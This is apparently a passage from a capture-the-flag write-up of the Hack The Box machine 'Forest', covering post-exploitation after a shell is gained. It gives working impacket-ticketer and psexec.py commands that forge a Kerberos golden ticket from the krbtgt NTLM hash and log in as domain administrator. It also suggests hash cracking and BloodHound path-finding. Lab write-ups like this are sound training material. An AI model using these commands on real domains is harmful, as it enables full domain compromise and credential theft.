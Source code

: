 And this gives a dedicated shell:

![root2](./forest/root2.png)

From here there are some fun learning opportunities:

- Try to crack all the NTLM hashes of the domain users
- Make a golden ticket
- Perform the same attack but use [BloodHound](https://github.com/BloodHoundAD) to automate the process of finding this path from `svc-alfresco` to `Administrator`
  - A good walkthrough for this can be found here: https://www.youtube.com/watch?v=H9FcE_FMZio

From the above list, the following will attempt to make a golden ticket for the domain:

- `nthash` is the NTLM of the `krbtgt` user from the `NTDS.DIT` dump
- `domain-sid` is the first part of the SID for any user on the domain. Run `whoami /all` and remove the last part of the SID column after and including the `-`. For example, the user `svc-alfresco` has the SID `S-1-5-21-3072663084-364016917-1341370565-1147`. The Domain SID is `S-1-5-21-3072663084-364016917-1341370565`
  - https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824(v%3Dws.10)
- The username needs to be a valid username on the domain (or sometimes weird stuff will happen...)

```bash
# generate golden ticket
impacket-ticketer \
  -nthash 819af826bb148e603acb0f33d17632f8\
  -domain-sid S-1-5-21-3072663084-364016917-1341370565 \
  -domain htb.local \
  administrator
# add ticket to path
export KRB5CCNAME=$(pwd)/administrator.ccache
# use ticket to login
psexec.py -k -no-pass -dc-ip 10.10.10.161 htb.local/administrator@10.10.10.161
```
